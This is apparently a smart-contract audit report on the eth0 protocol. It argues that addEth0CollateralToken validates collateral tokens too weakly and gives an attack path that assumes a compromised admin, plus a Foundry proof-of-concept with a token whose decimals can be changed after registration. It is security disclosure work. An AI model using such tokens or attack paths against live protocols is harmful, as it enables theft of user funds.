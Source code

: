 Ancient Crimson Llama

Medium

# Insufficient Token Validation in addEth0CollateralToken can enable an attacker with admin access to onboard malicious tokens.

### Summary

While doing manual review on `addEth0Collateral`, I noticed that there is insufficient collateral validation while adding the collateral, the only teo validations that are present is to check if the collateral is not `address(0)` and if the `IERC20Metadata(collateral).decimals()` is not equal to 0. This shows that the function `addEth0CollateralToken` does not properly validate the collateral token when adding a collateral token. It does not actually check the value of decimals(), it only checks if it is not zero(0), thus allowing tokens with an unusual or dynamic decimal value like 255 or (and here is where malicious logic comes in) changeable (by a contract the token is not aware of) to arbitrary numbers. This could lead to a malicious user (with admin priviledge) to onboard a malicious token that could harm the protocol

### Root Cause

In `addEth0CollateralToken`, there is insufficient validation check on the collateral that is being added to the protocol. If the admin token/credentials is compromised or If an attacker gains admin access, this might be a major issue. 

```solidity
if (collateral == address(0)) {
            revert NullAddress();
        }
        // check if there is a decimals function at the address
        // and if there is at least 1 decimal
        // if not, revert
        if (IERC20Metadata(collateral).decimals() == 0) {
            revert Invalid();                                
        }
```
https://github.com/sherlock-audit/2025-05-usual-eth0/blob/main/eth0-protocol/src/TokenMapping.sol#L78

### Internal Pre-conditions

1. An attacker/malicious user needs to gain admin access.
2. The attacker must deploy a malicious ERC20 token. 


### External Pre-conditions

1. The attacker must gain control of the `DEFAULT_ADMIN_ROLE`
2. The eth0-protocol must lack external mechanisms to detect / prevent the addition of a malicious token e.g a timelock system

### Attack Path

**The following is the assumed path:**

1. An attacker gain an admin access: access `DEFAULT_ADMIN_ROLE` account through means such as phishing attacks, stolen private keys or insufficient governance policies.
2. An attacker deploys a malicious token: develop an ERC20 token with a decimals() function returning an initial valid non-zero number like 18 but allowing future changes to other values such as 255.
3. Add malicious token: the admin registration process requires calling addEth0CollateralToken to pass the initial validation step.
4. Manipulate decimals: once the token is registered, modify the decimals() function to an extreme or disruptive setting.
5. Exploit downstream logic: the modified decimal settings create disruptions in protocol functions by causing collateral calculation errors.

### Impact

1. Asset integrity compromised: The system accepts worthless or malicious tokens as valid collateral.

2. Minting function can become misled: The wadCollateralBackingInETH logic assumes that every added token is both valid and has a price.

3. Excessive ETH0 minting with these tokens puts system solvency at risk.

### PoC

```solidity
// SPDX-License-Identifier: Apache-2.0
pragma solidity 0.8.20;

import {SetupTest} from "./setup.t.sol";
import {MyERC20} from "src/mock/myERC20.sol";
import {ERC20} from "openzeppelin-contracts/token/ERC20/ERC20.sol";
import {IEth0} from "src/interfaces/token/IEth0.sol";
import {SameValue} from "src/errors.sol";
import {CONTRACT_ETH0} from "src/constants.sol";
import {ETH0Name, ETH0Symbol} from "src/mock/constants.sol";
import {TooManyCollateralTokens, NullAddress} from "src/errors.sol";
import {TokenMapping} from "src/TokenMapping.sol";

import {Eth0} from "src/token/Eth0.sol";

contract MaliciousERC20 is ERC20 {
    uint8 private _decimals;
    constructor(uint8 initialDecimals) ERC20("MaliciousToken", "MAL") {
        _decimals = initialDecimals;
    }

    function decimals() public view virtual override returns (uint8) {
        return _decimals;
    }

    function setDecimals(uint8 newDecimals) external {
        _decimals = newDecimals;
    }
}

contract TokenMappingTest is SetupTest {
    address myRwa;

    IEth0 stbc;

    event Initialized(uint64);

    function setUp() public virtual override {
        super.setUp();

        myRwa = rwaFactory.createRwa("rwa", "rwa", 6);
        stbc = new Eth0();
        _resetInitializerImplementation(address(stbc));
        Eth0(address(stbc)).initialize(address(registryContract), ETH0Name, ETH0Symbol);
    }

    function testConstructor() external {
        vm.expectEmit();
        emit Initialized(type(uint64).max);

        TokenMapping tokenMapping = new TokenMapping();
        assertTrue(address(tokenMapping) != address(0));
    }

    function testInitialize() public {
        tokenMapping = new TokenMapping();
        _resetInitializerImplementation(address(tokenMapping));
        vm.expectRevert(abi.encodeWithSelector(NullAddress.selector));
        tokenMapping.initialize(address(0), address(registryContract));
        vm.expectRevert(abi.encodeWithSelector(NullAddress.selector));
        tokenMapping.initialize(address(registryAccess), address(0));
    }

     function testSetRwaWithDynamicDecimals() external {
        // Deploy a malicious token with initial decimals of 18
        MaliciousERC20 maliciousToken = new MaliciousERC20(18);
        // Add the token as collateral (should succeed)
        vm.prank(admin);
        tokenMapping.addEth0CollateralToken(address(maliciousToken));
        // Verify the token is registered
        assertTrue(tokenMapping.isEth0Collateral(address(maliciousToken)));
        uint256 lastId = tokenMapping.getLastEth0CollateralTokenId();
        assertEq(tokenMapping.getEth0CollateralTokenById(lastId), address(maliciousToken));
        // Change decimals to an unusual value (e.g., 255)
        vm.prank(admin);
        maliciousToken.setDecimals(255);
        // Verify the decimals have changed, demonstrating the vulnerability
        assertEq(maliciousToken.decimals(), 255);
        // Token remains registered despite changed decimals
        assertTrue(tokenMapping.isEth0Collateral(address(maliciousToken)));
    }

}


```

### Mitigation

**To mitigate the vulnerability, implement the following:**
1. Range Check for Decimals: Modify the function to enforce a reasonable range for decimals() (e.g., 6–18). 
e.g uint8 decimals = IERC20Metadata(collateral).decimals();
require(decimals >= 6 && decimals <= 18, "Invalid decimals");
2. Ensure IERC20(collateral).totalSupply() > 0
3. Implement a whitelist or governance process to ensure only trusted, non-upgradeable collateral(tokens) are added.